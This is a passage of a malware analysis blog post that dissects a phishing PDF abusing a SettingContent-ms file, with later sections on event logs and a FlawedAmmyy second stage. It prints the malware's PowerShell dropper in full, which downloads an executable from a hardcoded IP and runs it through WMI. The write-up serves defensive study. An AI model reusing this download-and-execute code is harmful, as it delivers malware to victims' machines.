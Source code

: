     
       $a='http://169.239.129.117/cal'
       $b=\"$env:temp\update12.exe\"
       $webc = [System.Net.WebClient]::new()
       $webc.DownloadFile($a, $b)
       $pclass = [wmiclass]'root\cimv2:Win32_Process'
       $pclass.Create($b, '.', $null)
    

It creates a WebClient object, uses it to download a malicious exe, and uses
WMI to start the process.

## User Experience

On opening the document, there’s not much there, but it does try to open the
file immediately. As the Adobe Javascript documentation indicated, there is a
pop up when this occurs:

![](https://0xdfimages.gitlab.io/img/inovoice.pdf-open.png)

On clicking open, a blue PowerShell window pops up for a second, and then
disappears. I suspect if it was able to talk to the c2 ip, it would disappear
much faster.

If we check in the PowerShell event logs (remember we configured Windows to do
PowerShell script block logging in [this post](/2018/06/04/emotet-doc-
sample.html), we can see the script ran as expected:

![](https://0xdfimages.gitlab.io/img/inovoice.pdf-event.png)

## Stage Two - update12.exe

At the time of this writing, the second stage download server was no longer
up. This isn’t surprising, since the document has a creation date of 12 July,
and was first submitted to VT that same day.

According to others who have looked at this file, it sounds like it was
downloading FlawedAmmyy ([ref](https://www.proofpoint.com/us/threat-
insight/post/ta505-abusing-settingcontent-ms-within-pdf-files-distribute-
flawedammyy-rat),
[ref](https://securityaffairs.co/wordpress/74639/hacking/settingcontent-ms-
flawedammyy-rat.html))

## Summary

While not nearly as common as macro enabled documents in phishing, there are
still actors out there using PDFs to spearphish. This one was using a
technique that Spector Ops [blogged about on June
11](https://posts.specterops.io/the-tale-of-settingcontent-ms-
files-f1ea253e4d39), the SettingContent-ms file. It was pretty simple to break
down the document and see what’s going on.

[](/2018/08/06/malware-analysis-inovoice-019338pdf.html)

